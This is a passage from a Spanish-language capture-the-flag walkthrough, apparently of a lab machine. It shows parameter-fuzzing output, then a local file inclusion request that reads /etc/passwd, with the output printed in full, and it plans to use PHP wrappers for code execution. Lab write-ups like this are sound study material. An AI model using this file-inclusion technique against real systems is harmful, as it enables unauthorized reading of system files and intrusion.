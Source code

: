 ```
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 22274
________________________________________________

file                    [Status: 200, Size: 23613, Words: 6185, Lines: 475, Duration: 1ms]
:: Progress: [20469/20469] :: Job [1/1] :: 2000 req/sec :: Duration: [0:00:11] :: Errors: 51 ::
```

Vemos que encontramos un parametro llamado `file` el cual es vulnerable a un `LFI`, por lo que probaremos a realizar lo siguiente:

```
URL = http://<IP>/index.php?file=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
darks:x:1001:1001::/home/darks:/bin/rbash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
cristal:x:1002:1002:,,,:/home/cristal:/bin/bash
tcpdump:x:102:105::/nonexistent:/usr/sbin/nologin
```

Vemos que funciona correctamente, vamos a comprobar si se pudieran utilizar `wrappers` junto con este `LFI` para poder ejecutar codigo de forma remota y no solo leer archivos.

## Escalate user www-data
